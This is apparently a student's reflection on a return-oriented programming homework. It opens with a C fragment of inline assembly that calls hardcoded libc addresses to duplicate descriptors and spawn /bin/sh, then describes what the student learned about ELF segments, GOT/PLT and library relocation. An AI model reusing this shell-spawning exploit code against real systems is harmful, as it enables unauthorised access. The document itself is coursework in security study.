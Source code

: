 ```
			asm("push $0x4\n");
                        asm("push $0x1\n");
                        asm("push $0x1\n");
                        asm("push $0x4\n");
                        asm("push $0x0\n");
                        asm("push $0x0\n");
                        asm("pop %rsi\n");
                        asm("pop %r15\n");
                        asm("pop %rdi\n");
                        void (*d2)(void) = 0x7ffff7b00fe0;
                        //asm(//"mov $0x0, %rsi\n"
                        //"mov $0x0, %r15\n"
                        //"mov $0x4, %rdi\n");
                        d2();
                        asm("pop %rsi\n");
                        asm("pop %r15\n");
                        asm("pop %rdi\n");
                        //asm("mov $0x1, %rsi\n"
                        //"mov $0x0, %r15\n"
                        //"mov $0x4, %rdi\n");
                        d2();
                        //     dup2(new, 0);
                        //   dup2(new, 1);
                        // dup2(new, 2);
                        asm("mov $0x1, %eax");
                        asm("mov $0xff, %ecx");
                        asm("mov $0x1, %ebx");

                        char binsh[] = "/bin/sh";
                        printf(  "mov %p, %rsi", &binsh[0] );
                        asm("mov $0x7fffffffeae0, %rdi");
                        void (*ss)(void)= 0x7ffff7a5b640;
                        ss();
                        //system("/bin/sh");
                        exit(0);
```

I thought there was something wrong with my way of doing DUP2 but after your explanations now I know why it didn’t work.

# Major Things Learned 

First of all, I have to say; I haven’t learned that much during a homework assignment as this time. Although I had spent lot of time trying to get a solution, reaching the accomplishment and the gained knowledge and experience during the work was so thrilling and motivate.    I never knew how Elf files segmentations works exactly, how libc and dynamic libraries are relocated to virtual address. And the ideas of GOT/PLT where one have write/but not read and other have opposite.   I improved my skills with python more and more, and got practiced real world example of how ROP can be done.  I actually delved into more details of advanced techniques, but still didn’t get how I can determine base address of the program given one return address. And still my question remains, does this only applies to Position Independent Program, and whither our case falls under that or not.